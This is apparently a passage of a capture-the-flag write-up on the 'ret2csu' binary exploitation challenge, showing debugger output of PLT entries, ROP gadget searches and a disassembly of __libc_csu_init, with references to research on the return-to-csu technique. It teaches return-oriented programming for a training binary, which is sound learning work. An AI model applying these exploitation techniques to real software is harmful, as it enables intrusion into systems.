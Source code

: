 So we remember the registers for arguments go rdi, rsi, and rdx for 1st, 2nd, and 3rd arguments to a function respectively. 

Opening up the binary, we can see that the ret2win function is in the plt, so we don't have to worry about getting offsets to it or anything.

```
pwndbg> plt
0x400500: pwnme@plt
0x400510: ret2win@plt
```

We also see that we can easily control rsi and rdi.

```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/ret2csu/ret2csu_64/ret2csu
0x00000000004006a3: pop rdi; ret; 

pwndbg> ropper -- --search "pop rsi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rsi

[INFO] File: /root/working/ret2csu/ret2csu_64/ret2csu
0x00000000004006a1: pop rsi; pop r15; ret; 
```

However, we can not find any gadgets that affect rdx in the binary. I spent a lot of time here trying to figure this out and got no where, so I ended up reading the paper linked in the challenge: [BlackHat Asia paper](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) and [this article](https://www.voidsecurity.in/2013/07/some-gadget-sequence-for-x8664-rop.html) by voidsecurity. 

The idea is that automatid tools like ropper don't find every possible gadget and if you know what you are doing you can find gadgets in the boiler plate code that gcc adds to every binary. If you can find useful gadgets in the boilerplate, those gadgets should be in every binary and hence universal.

The boilerplate code we are using for this challenge is the \_\_libc_csu_init function. Which is as follows:

```
   0x0000000000400640 <+0>:     push   r15
   0x0000000000400642 <+2>:     push   r14
   0x0000000000400644 <+4>:     mov    r15,rdx
   0x0000000000400647 <+7>:     push   r13
   0x0000000000400649 <+9>:     push   r12
   0x000000000040064b <+11>:    lea    r12,[rip+0x20079e]        # 0x600df0
   0x0000000000400652 <+18>:    push   rbp
   0x0000000000400653 <+19>:    lea    rbp,[rip+0x20079e]        # 0x600df8
   0x000000000040065a <+26>:    push   rbx
   0x000000000040065b <+27>:    mov    r13d,edi
   0x000000000040065e <+30>:    mov    r14,rsi
   0x0000000000400661 <+33>:    sub    rbp,r12
   0x0000000000400664 <+36>:    sub    rsp,0x8
   0x0000000000400668 <+40>:    sar    rbp,0x3
   0x000000000040066c <+44>:    call   0x4004d0 <_init>
   0x0000000000400671 <+49>:    test   rbp,rbp
   0x0000000000400674 <+52>:    je     0x400696 <__libc_csu_init+86>
   0x0000000000400676 <+54>:    xor    ebx,ebx
   0x0000000000400678 <+56>:    nop    DWORD PTR [rax+rax*1+0x0]
```